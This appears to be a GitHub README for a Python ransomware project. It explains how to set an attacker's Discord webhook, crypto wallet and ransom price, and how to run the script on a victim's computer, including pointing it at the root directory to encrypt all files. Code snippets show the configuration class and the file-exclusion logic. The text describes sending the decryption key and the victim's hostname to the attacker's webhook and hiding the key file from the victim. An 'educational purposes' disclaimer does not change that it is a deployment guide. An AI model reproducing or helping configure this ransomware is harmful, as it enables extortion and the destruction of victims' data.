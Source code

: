 ![This is an image](https://i.ibb.co/CV9mKzD/Background.png)



<h1 align="center">RANSOMWARE.PY</h1>

<div align="center">
  <strong>Ransomware made with python, open-source project.</strong>
  <br>
  <br>

  <a href="https://travis-ci.com/kyb3r/dhooks">
    <img src="https://img.shields.io/travis/com/kyb3r/dhooks/master.svg?style=for-the-badge&colorB=06D6A0" alt="Travis" />
  </a>
  
  <a href="https://test-dhooks-doc.readthedocs.io/en/latest/?badge=latest">
    <img src="https://img.shields.io/readthedocs/dhooks.svg?style=for-the-badge&colorB=E8BE5D" alt="Documentation Status" />
  </a>

  <a href="https://github.com/kyb3r/dhooks/">
    <img src="https://img.shields.io/pypi/pyversions/dhooks.svg?style=for-the-badge&colorB=F489A3" alt="Py Versions" />
  </a>

  <a href="https://pypi.org/project/dhooks/">
    <img src="https://img.shields.io/pypi/v/dhooks.svg?style=for-the-badge&colorB=61829F" alt="PyPi" />
  </a>

  <a href="https://github.com/kyb3r/dhooks/blob/master/LICENSE">
    <img src="https://img.shields.io/github/license/kyb3r/dhooks.svg?style=for-the-badge&colorB=7289DA" alt="LICENSE" />
  </a>
</div>
<br>



Here is an open-source program that allows you to understand the creation of a ransomware via **python**. I remind you that this is only for **educational purposes**, I am not responsible for any problems related to these scripts.

- **How it works ?**

In order to be able to encrypt the files and decrypt them, I use the `cryptography.fernet` module. This module allows to encrypt a message or files only accessible with a decryption key.

If you want to convert the .py file into a `.exe` file its possible ! Using [pyinstaller](https://pyinstaller.org/en/stable/)

### Reminder...

![EDUCATIONPURPOSESONLY](https://i.ibb.co/NxbHwyM/winmiwnrih.png)

## Authors

- [@zaqoQLF](https://www.github.com/zaqoQLF)


## Installation Windows
![Logo](https://i.ibb.co/tJBNv9x/Screenshot-2022-05-24-at-8-07-34-PM.png)

In order to be able to install all the dependencies you will need to have `pip` installed and run the commands below. If you are on **windows** run one of the following commands :

```bash
  pip3 install -r requirements.txt or pip install -r requirements.txt
```

Or run the file `setup.py` and choose which type of installation you want.
```bash
  python3 setup.py
```

Or install all dependencies one by one : 

```bash
  pip install os
  pip install time
  pip install socket
  pip install cryptography
  pip install discord_webhook
  pip install colorama
  pip install binascii
```

In the `ransomware.py` can modify some values like the `Discord Webhook`, your CryptoCurrency Wallet, the requested price, and the currency desired.

```python
  class ransomware:
    def __init__(self):
        self.files_to_encrypt = []
        self.KeyStore = []
        self._keyEncrypt = Fernet.generate_key()
        self.dc_webhook = DiscordWebhook("Your Discord Webhook Here")
        self.wallet_url = "YOUR WALLET URL"
        self.priceToAsk = "Price To Ask Here"
        self.currency = "Crypto Currency Choice"
  ```
  
In case you don't want to encrypt some files, you can specify it as I did in this line of code below.
- Attention, you must write the file name similar to the file you do not want to encrypt

So if you want to add `DoNotEncryptMe.txt` just add a line of code after the `install.bat` like this:

Do this for the 2 functions, its very important cause if you don't do that it will encrypt your files, or decrypt it.
But in the case you want to encrypt all victim's files, don't touch anything.

```python
   ... or file == 'DoNotEncryptMe.txt':
```
```python
    # In the encrypt_files function
    if file == 'ransomware.py' or file == 'rkey.key' or file == 'encryptionCheck.txt' or file == 'requirements.txt' or file == 'setup.py' or file == 'ADD YOUR FILE NAME HERE':
```
```python
    # In the decrypt_files function
    if file == 'ransomware.py' or file == 'rkey.key' or file == 'encryptionCheck.txt' or file == 'requirements.txt' or file == 'setup.py' or file == 'ADD YOUR FILE NAME HERE':
```
    
## Running Scripts

![Logo](https://i.ibb.co/1qGfTKF/Screenshot-2022-05-24-at-8-06-10-PM.png)

To be able to execute the files you will have to run these commands

The script must run on your victim computer, or if you want to try you can ! but in a empty directory to avoid the encryption of all your files.
```python
  python3 ransomware.py
```

By default the files which will be encrypted will be those which are in the current working directories, to specify the path you can add this for example:
for more information click [here](https://www.geeksforgeeks.org/python-os-listdir-method/)

```python 
  path = "/"   # "/" correspond to the root file but you can custom with a custom path example C: Boot or D:/
  for file in os.listdir(path): # then specify the path as parameter
```

If the decryption key correspond it will shows you this:

![Decryption Accepted](https://i.ibb.co/1s4RSrg/rightkey.png)

Else, it will return an error and keep your files encrypted until you have the right decryption key :

![Decryption Rejected](https://i.ibb.co/D5MngLn/incorrect-Key.png)

## How Encryption works ?

The encryption will change all your victim's current file (in the directory chosen) by an encryption that will be only readable/decryptable with a key. ( The key will be send on Discord with webhook, you need to put the link of your webhook in the `self.dc_webhook = ""`).

Regarding encryption, all the encryption you will do will be automatically in bytes which means that you must decode -> strings to be able to use your variables or whatever you want.

In this script everything has already been done but if you want for example to send the key via email/smtp or other you will have to decode it.
- Here is a code sample :
```python
    from cryptography.fernet import Fernet

    key_encryption = Fernet.generate_key()

    _Key = Fernet(key_encryption)

    TextToEncrypt = _Key.encrypt(b'Hello World !') # Need to be in bytes

    # Output of TextToEncrypt : b'gAAAAABijpAFxDE5pe5EJHIPgdtfRNvSvk81wEXyueyyKhDYWt-0w13c2eJVFNBUmxB0WVTvnVccYxP0MrlM9asNC-oLLZ1mZQ=='

    # Then decrypt

    DecryptText = _Key.decrypt(TextToEncrypt) # Output : b'Hello World !'

    # As you see it will be in Bytes so to decode it to turn this variable into strings : 

    print(DecryptText.decode()) 

    # Output -> Hello World !
```

For example i got here a `.txt.` file and i will encrypt it.

![txt file](https://i.ibb.co/pR56FRT/hello-World.png)

So, first of all in my directory i only got this txt file and my script, you can make some exception to avoid encryption on some specified files.
If i run my script it will encrypt it and it will be not readable anymore until the victim's got the key

After that, few files will be created, first an `encryptionCheck.txt` will be create on the victim's computer this file will be used to check if this file exist. If its not it will encrypt all the file and if it already exist it will just ask the victim a ransom. So its a way to check if the encryption already been executed or not.

This `encryptionCheck.txt` is very useful but not the smarter way to do it but it makes the script more easier to understand and like this all the code is in one and unique script. 

After the encryption check file done, it will create a `rkey.key` file on the computer's victim. This will store the key in it but the victim will in no way know that the key is on his computer, moreover it will be mixed with a lot of files so impossible to find it for the victim. Since the files will have been modified, "The quick access" (folder on your computer) will be spammed by all the modified files, so it is impossible to find this key. 

Hello World File afer encryption : 

![AfterEncryption](https://i.ibb.co/ZGy4p3b/wuinduaw.png)

[!] To decrypt the victim files he will need the encryption key, you will receive it by webhook through discord webhook.
  
## Discord Webhooks

![App Screenshot](https://i.ibb.co/cQ7z9Y8/Screenshot-2022-05-24-at-8-09-39-PM.png)

- In this code there is a system that allows you to receive via webhook the hostname on which computer the ransomware was executed as well as the decryption key. 

- [FIXED - WORKS] For the moment the key cannot be used but you can change that by putting an input in the script and converting the string to bytes, base64 url-safe

![App Screenshot](https://i.ibb.co/KFSn0dQ/webhook2.png)

## Screenshot of Shell
![App Screenshot](https://i.ibb.co/RDNbssh/ransomware.png)


